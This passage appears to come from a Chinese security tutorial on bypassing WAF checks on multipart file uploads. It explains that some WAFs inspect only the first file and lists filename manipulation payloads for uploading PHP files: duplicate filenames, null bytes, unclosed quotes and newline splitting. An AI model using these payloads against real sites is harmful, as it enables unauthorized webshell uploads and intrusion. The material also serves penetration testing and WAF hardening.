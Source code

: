 ![垃圾数据](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220118155153315.png)



### 未解析所有文件

multipart协议中，一个POST请求可以同时上传多个文件。**许多WAF只检查第一个上传文件，没有检查上传的所有文件**，**而实际后端容器会解析所有上传的文件名**，攻击者只需把paylaod放在后面的文件PART，即可绕过。



### 参数下的变异

- Content-Disposition 一般可以进行任意修改甚至删除
- Content-Type 视情况而定, 需要考虑网站上传验证是否进行处理
- filename 可以修改

一些payload:

```bash
# 文件名覆盖
filename="1.txt";filename="php.php"

# 遗漏文件名（当WAF遇到name="myfile";;时，认为没有解析到filename。而后端容器继续解析到的文件名是t3.jsp，导致WAF被绕过）
name="myfile";;filename="php.php"


filename="x.php%00.jpg"
filename=php.php;        #去掉双引号和添加一个分号，匹配的是`php.php;`和分号
filename="x.php
filename="'x.php           #后面的单引号没闭合
filename="'x.php"
filename= ;filename="php.php"        #多写几个变量，buwng不往后匹配第一个留空，没有值就

# 文件名回车
filename="x.
p
h
p
"                    #用多个换行(%0a 的url decode)来避开


```

不规则Content-Disposition文件名覆盖:

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220118155331607.png)



多个content-Disnosition文件名覆盖(Win2k8 +IIS7.0+ PHP):

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220118155402339.png)



更换filename位置(iis 6):

